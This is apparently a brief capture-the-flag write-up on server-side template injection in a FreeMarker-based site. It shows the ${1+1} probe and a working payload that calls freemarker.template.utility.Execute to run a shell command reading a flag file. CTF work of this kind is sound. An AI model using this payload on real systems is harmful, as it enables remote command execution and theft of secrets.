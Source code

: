 Templating system is based on Freemaker (java templating)
we can test if it's insecure by trying to inject ${1+1} and if we see 2 it's done
code to inject to get the flag
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
